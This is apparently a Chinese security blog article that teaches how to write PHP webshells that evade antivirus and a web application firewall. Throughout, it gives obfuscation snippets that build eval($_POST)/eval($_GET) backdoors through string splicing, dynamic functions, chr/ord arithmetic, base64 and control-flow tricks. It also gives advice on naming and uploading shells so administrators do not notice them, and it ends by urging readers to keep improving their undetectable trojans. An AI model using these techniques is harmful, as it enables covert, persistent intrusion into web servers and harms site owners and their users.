

免杀技巧 | PHP免杀木马绕过某盾
对于网站木马总重要的就是隐匿性和免杀.在说免杀之前,我想先说说有关于隐匿性的两个小细节.
隐匿性:
1.木马文件的命名
例如你不可能将木马命名为backdoor.php或者muma.php等等,根据网站网页命名的方式决定木马文件的命名
2.上传的木马是否要使用参数加密
使用参数加密的木马对于机器来说不容易识别,对于人来说却十分容易识别,因为没有一个正常的GET请求会对参数进行加密
不使用参数加密的木马对于机器来说很容易识别,对人来说不太容易识别相对于使用参数加密的木马来说.
最好的解决办法是同时上传这两种木马.
免杀:
免杀最重要的目的就是尽可能的减少静态特征以及关键字的拼接
常用的免杀技巧:
1.字符串拼接
$a = ‘ev’;$b = ‘al’;$c = $a.$b;//eval
2.动态函数
$a = ‘eval’;$b = ‘_GET’;$a($$b[‘muma’]);//eval($_GET[‘muma’]);
3.进制转换
chr(ascii)$a = chr(61);//$a = ‘=’ord(string)$a = ord(‘=’);//$a = 61$a = chr(36).chr(95).chr(ord(‘P’)).chr(ord(‘O’)).chr(ord(‘S’)).chr(84)//$a = ‘$_POST’
4.类的继承和构造方法
class guogou{public $adaa= 'afafaf';function __construct(){echo "忽悠狗";}}class gg extends guogou{public $a ;public $b;public $c;public $dd ="1";function __construct() //构造方法{/*Do something*/}function po($p){$asdf = ‘忽悠安全狗’;}}
5.数组拼接和进制转换四则运算灵活运用
$a = array(‘a’=>’P’,’b’=>36,’c’=>’_’,’d’=>’o’,’e’=>’S’,’f’=>’T’);//大写O与小写o的ascii值相差32$result = chr($a[‘b’]). $a[‘c’]. $a[‘a’]. chr(ord($a[‘d’])-32). $a[‘e’]. $a[‘f’];//$result = ‘$_POST’
6.逻辑判断木马
eval(false ? 312513: $_POST['payload']);7.base64编码解码
$a = base64_decode(‘JF9QT1NU’);//$a = ‘$_POST’8.字符串替换
$a = ‘$_POgeTST’;echo str_replace(‘geT’,’’,$a);//打印$_POST
9)注释干扰
在代码执行过程中随意添加注释
1.switch语句,if语句绕过
switch语句的特点是不遇到break就一直向下运行
switch(‘2’){case ‘1’:echo ‘something’;break;case ‘2’:/*do something*/case ‘3’:$a = ‘$_POST’;break;default:/*do something*/}
注意第二个case ‘2’:的下面我并没有添加break,所以switch从case ‘2’一直执行到default上面(到case ‘3’的break结束)
If判断
If(false):{/*do something*/}else:{$a = ‘$_POST’;}If嵌套If(true){If(true){$a = ‘$_POST’;}}
2.位运算
通过位运算可以构造任意字符,但是我并不推荐这种做法,毕竟没有一个正常的php程序会用到这个东西.
注意:为了方便理解下面的免杀小马,我用payload作为变量名,但是有些杀毒软件会根据变量名进行查杀,请不要用$payload诸如此类的变量名.
在PHP中像chr(),ord(),str_replace()之类的内置函数(猥琐函数)非常多,单个技巧并不能实现免杀,如何将这些技巧结合起来才是最重要的.
下面我以一个过安全狗的小马为例,抛砖引玉,希望对大家编写免杀木马有所帮助.

成功躲避检测.
下面是ma1.php的源代码,只有短短的42行.

还有一些骚操作,比如文件包含,txt文档放源码,内存马等等,每个人的思路都不一样,多看看别人的免杀马怎么写的,你编写木马水平一定会提高。
小提示:编写木马的时候想想正常的程序员会怎么写，我们跟他们一样,只不过我们是在有意创造漏洞.

推荐阅读：
点赞 在看 转发
原创投稿作者：Corn